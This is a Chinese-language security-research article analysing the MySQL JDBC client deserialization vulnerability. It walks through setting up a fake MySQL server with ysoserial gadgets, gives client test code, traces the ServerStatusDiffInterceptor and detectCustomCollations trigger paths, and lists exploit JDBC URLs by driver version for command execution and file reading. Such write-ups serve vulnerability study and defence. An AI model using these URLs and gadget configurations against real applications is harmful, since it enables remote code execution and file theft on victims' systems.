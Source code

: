 #  MYSQL JDBC反序列化漏洞利用和分析   
原创 ye1s  山石网科安全技术研究院   2023-11-23 14:47  
  
本漏洞其实就是服务器响应结果给客户端，客户端会进行反序列化从而造成反序列化漏洞。  
  
01  
  
**JDBC简介**  
  
JDBC（Java DataBase Connectivity）是Java和数据库之间的一个桥梁，是一个 规范 而不是一个实现，能够执行SQL语句。它由一组用Java语言编写的类和接口组成。各种不同类型的数据库都有相应的实现，本文中的代码都是针对MySQL数据库实现的。  
  
简单实例：  
```
String Driver = "com.mysql.cj.jdbc.Driver"; //从 mysql-connector-java 6开始
//String Driver = "com.mysql.jdbc.Driver"; // mysql-connector-java 5
String DB_URL="jdbc:mysql://127.0.0.1:3306/security";
//1.加载启动
Class.forName(Driver);
//2.建立连接
Connection conn = DriverManager.getConnection(DB_URL,"root","root");
//3.操作数据库，实现增删改查
Statement stmt = conn.createStatement();
ResultSet rs = stmt.executeQuery("select * from users");
//如果有数据，rs.next()返回true
while(rs.next()){
  System.out.println(rs.getString("id")+" : "+rs.getString("username"));
}

```  
  
  
  
02  
  
**漏洞复现**  
  
**搭建一个恶意mysql服务器**  
  
  
MySQL服务器使用：https://github.com/fnmsd/MySQL_Fake_Server，  
这是一个可以方便的辅助MySQL客户端文件读取和提供MySQL JDBC反序列化漏洞所需序列化数据的假服务器。  
  
修改config.json里的配置，  
将ysoserialPath的值 修改为ysoserial工具的位置  
```
 "config":{
        "ysoserialPath":"ysoserial-0.0.6-SNAPSHOT-all.jar",
    }
```  
  
**1）命令执行**  
  
修改yso的值，Jdk7u21名可任意，后面DB_URL地址要用到，为user的名 CommonsCollections5为ysoserial的Gadget的名，[]里面为要执行的命令  
```
  "yso":{
        "Jdk7u21":[" CommonsCollections5","open -a calculator"]
    }

```  
  
**2）文件读取**  
  
将fileread的文件路径设置为你想要读取的文件位置  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnT2cXacOsAwlf2fbaxGOk0gVAdlGf0S5ndYWK7xF4HPCfc4WgWhgYggKzePic2icYTZ0mnxXY66ibgMA/640?wx_fmt=png&from=appmsg "")  
  
python server.py 启动 ，默认端口为3306，可以修改  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnT2cXacOsAwlf2fbaxGOk0gf79FMSVu6UrH4DmFr8gmD8zqPsp7Eib56Q2INKupiaFmlo92bicSRZrtw/640?wx_fmt=png&from=appmsg "")  
  
‍  
  
**客户端连接测试代码**  
  
```
import java.sql.Connection;
import java.sql.DriverManager;

public class Test{
    public static void main(String[] args) throws Exception{
        String driver = "com.mysql.jdbc.Driver";
        String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=Jdk7u21";//8.x使用
        //String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=Jdk7u21";//5.x使用
        Class.forName(driver);
        Connection conn = DriverManager.getConnection(DB_URL);
    }
}

```  
  
user设置为Jdk7u21 命令执行  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnT2cXacOsAwlf2fbaxGOk0g5hlr1pqrrkZBW6ibFqtJef9sLdoDQ1OQmgmwIoFsqLYDtiaAhOn6UE8w/640?wx_fmt=png&from=appmsg "")  
  
user设置为linux_passwd 读取文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnT2cXacOsAwlf2fbaxGOk0gGoibcCZLianb7BY16baia2hrZoHHroG94AI8Tu6IzdKjDOmmUanaaHbKQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnT2cXacOsAwlf2fbaxGOk0gDabWTcDBT2qLomufIciaT24RlryEsXcaXiaqhk30TQQ2LBPL41Rx3ejQ/640?wx_fmt=png&from=appmsg "")  
  
  
03  
  
**漏洞原理分析**  
  
‍  
  
**ServerStatusDiffInterceptor触发方式**  
  
  
queryInterceptors是一个逗号分隔的Class列表，这些Class实现了com.mysql.cj.interceptors.QueryInterceptor接口。它们在执行Query之前和之后进行操作，从而影响结果。可以将其视为在Query执行前后插入操作的效果。  
  
autoDeserialize是一个配置选项，用于自动检测和反序列化存储在BLOB字段中的对象。因此，如上所述，如果要触发queryInterceptors，需要触发SQL Query。在获取数据库连接时，会触发一些请求，如SET NAMES utf和set autocommit=1等，这些请求会触发我们配置的queryInterceptors。  
  
ServerStatusDiffInterceptor的preProcess方法是在执行SQL Query之前需要执行的方法。它调用了populateMapWithSessionStatusValues方法。漏洞的触发点在com.mysql.cj.jdbc.result.ResultSetImpl.getObject()方法中，存在反序列化操作：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnT2cXacOsAwlf2fbaxGOk0gHZjIadYicrCP3M3myrYFe8Zm9mmKdSmPeLhRX8IfVAyQ9ic022evSgrA/640?wx_fmt=png&from=appmsg "")  
  
现在就是找调用 getObject的地方了，在  
com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor.populateMapWithSessionStatusValues()方法。  
  
当在JDBC URL中设置属性queryInterceptors为ServerStatusDiffInterceptor时，ServerStatusDiffInterceptor作为一个拦截器会被调用。在执行查询语句时，拦截器的preProcess和postProcess方法会被触发，最终会通过调用链调用到getObject()方法。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnT2cXacOsAwlf2fbaxGOk0gGfMUbhs5ukPYZKjYnt3MrDTXvQicHyE14iaaXQK3iaUicKe1QXbCfpkdSw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnT2cXacOsAwlf2fbaxGOk0gVvnXbQqVCLStlaB9N6aOqfZR5IzW6FpjTzSkzz0WzuO8Eub9EdAx4Q/640?wx_fmt=png&from=appmsg "")  
  
在JDBC连接数据库的过程中，会执行SHOW SESSION STATUS查询，并在处理结果时调用resultSetToMap方法进行进一步操作。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnT2cXacOsAwlf2fbaxGOk0gFicDeCo8jIogJRjiauZ0WnXPDIKMmGmoibCqP1pxNXuoyrzkrFPicwqOBw/640?wx_fmt=png&from=appmsg "")  
  
在这里我们还需要关注getObject方法的columnIndex参数的值，因为后面会用到它。到目前为止，我们已经找到了一个可利用的链条。首先设置拦截器，然后进入getObject方法，在getObject方法中，只要autoDeserialize为True，就可以进入最后的readObject方法。这也解释了POC中queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true的来源。  
  
‍  
  
**detectCustomCollations触发方式**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnT2cXacOsAwlf2fbaxGOk0gSiadYUibUBRw8icrzCkgKFpHmzgUmYXkyeEnanxf3JFo4IT31JRnCPic2Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnT2cXacOsAwlf2fbaxGOk0ghBDsiaPNKmRwOFQyicQUwpPp2IicnPlnEHS3YHPxTEWBwwjiaHbicbYdaug/640?wx_fmt=png&from=appmsg "")  
  
在服务器版本大于等于4.1.0且detectCustomCollations选项为true的情况下，可以获取SHOW COLLATION的结果。请注意，5.1.28版本的判断条件只有在服务器版本大于4.1.0时才成立。  
  
在获取SHOW COLLATION结果后，只有当服务器版本大于等于5.0.0时，才会进入上一节提到的resultSetToMap方法，并触发反序列化操作。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnT2cXacOsAwlf2fbaxGOk0gVNfz5rsOXDCDWA3iaVL6LdrKUwuKaPCaQ1OYdtfQbLNgibl6jjPR6cfA/640?wx_fmt=png&from=appmsg "")  
  
在这里，getObject方法与前文相同，不再重复说明。在这里只需要字段2或3为BLOB类型，用于存储我们的序列化数据。然而，从5.1.41版本开始，不再使用getObject方法获取SHOW COLLATION的结果，因此该方法失效。在5.1.18版本以下，同样不使用getObject方法获取SHOW COLLATION的结果，因此也无法使用该方法。  
  
  
04  
  
**利用链总结**  
  
用户名是基于MySQL Fake Server工具的，具体使用中请自行修改。  
  
‍  
  
**ServerStatusDiffInterceptor触发**  
  
- 8.x：jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc  
  
- 6.x（属性名不同）：jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc  
  
- 5.1.11及以上的5.x版本（包名没有了cj）：jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc  
  
- 5.1.10及以下的5.1.X版本：同上，但是需要连接后执行查询。  
  
- 5.0.x：还没有ServerStatusDiffInterceptor这个东西  
  
‍  
  
‍  
  
**detectCustomCollations触发**  
  
- 5.1.41及以上：不可用  
  
- 5.1.29-5.1.40：jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc  
  
- 5.1.19-5.1.28：jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc  
  
- 5.1.18以下的5.1.x版本：不可用  
  
- 5.0.x版本不可用  
  
‍  
  
参考文章：  
  
https://www.anquanke.com/post/id/203086  
  
 https://xz.aliyun.com/t/8159  
  
